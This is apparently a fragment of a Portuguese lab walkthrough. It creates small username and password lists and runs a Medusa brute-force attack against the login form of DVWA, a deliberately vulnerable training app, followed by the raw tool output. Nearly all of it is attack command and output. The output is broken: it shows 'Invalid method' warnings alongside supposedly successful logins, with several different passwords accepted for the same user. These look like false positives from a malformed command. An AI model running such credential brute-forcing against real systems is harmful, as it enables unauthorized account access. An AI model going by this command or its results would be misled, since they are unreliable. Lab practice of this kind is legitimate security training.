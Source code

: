 ```shell
#users
echo -e "user\nadmin\ndvwa\nsilvano" > users_dvwa.txt

#password
echo -e "123456\nadm\np@ssw0rd\nsilverado" > pass_dvwa.txt
```

#### Ataque 

```shell
sudo medusa -h 192.168.x.x -U users_dvwa.txt -P pass_dvwa.txt -M http \
-m PAGE:'/dvwa/login.php'\
-m FORM:'username=^USER^&password=^PASS^&Login=Login'\
-m 'FAIL=Login failed' -t 6\
-m 'user_token=6LdMu-wrAAAAAJTTlKxC5COs5D1u2tAyck-LprB2'


#saídas
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: 2025-10-16 17:45:33 ACCOUNT CHECK: [http] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 0 complete) Password: 123456 (1 of 4 complete)
Invalid method: PAGE.
WARNING: Invalid method: PAGE.
2025-10-16 17:45:33 ACCOUNT FOUND: [http] Host: 192.168.x.x User: user Password: 123456 [SUCCESS]
2025-10-16 17:45:33 ACCOUNT CHECK: [http] Host: 192.168.x.x (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: 123456 (1 of 4 complete)
2025-10-16 17:45:33 ACCOUNT FOUND: [http] Host: 192.168.x.x User: admin Password: 123456 [SUCCESS]
2025-10-16 17:45:33 ACCOUNT CHECK: [http] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 2 complete) Password: silverado (2 of 4 complete)
2025-10-16 17:45:33 ACCOUNT FOUND: [http] Host: 192.168.x.x User: user Password: silverado [SUCCESS]
2025-10-16 17:45:33 ACCOUNT CHECK: [http] Host: 192.168.x.x (1 of 1, 0 complete) User: dvwa (3 of 4, 3 complete) Password: adm (1 of 4 complete)
2025-10-16 17:45:33 ACCOUNT FOUND: [http] Host: 192.168.x.x User: dvwa Password: adm [SUCCESS]
2025-10-16 17:45:33 ACCOUNT CHECK: [http] Host: 192.168.x.x (1 of 1, 0 complete) User: silvano (4 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2025-10-16 17:45:33 ACCOUNT FOUND: [http] Host: 192.168.x.x User: silvano Password: 123456 [SUCCESS]
2025-10-16 17:45:33 ACCOUNT CHECK: [http] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 5 complete) Password: p@ssw0rd (3 of 4 complete)
2025-10-16 17:45:33 ACCOUNT FOUND: [http] Host: 192.168.x.x User: user Password: p@ssw0rd [SUCCESS]
2025-10-16 17:45:33 ACCOUNT CHECK: [http] Host: 192.168.x.x (1 of 1, 0 complete) User: admin (2 of 4, 6 complete) Password: adm (2 of 4 complete)
2025-10-16 17:45:33 ACCOUNT FOUND: [http] Host: 192.168.x.x User: admin Password: adm [SUCCESS]
2025-10-16 17:45:33 ACCOUNT CHECK: [http] Host: 192.168.x.x (1 of 1, 0 complete) User: dvwa (3 of 4, 7 complete) Password: 123456 (2 of 4 complete)
2025-10-16 17:45:33 ACCOUNT FOUND: [http] Host: 192.168.x.x User: dvwa Password: 123456 [SUCCESS]
2025-10-16 17:45:33 ACCOUNT CHECK: [http] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 8 complete) Password: adm (4 of 4 complete)
2025-10-16 17:45:33 ACCOUNT FOUND: [http] Host: 192.168.x.x User: user Password: adm [SUCCESS]
```
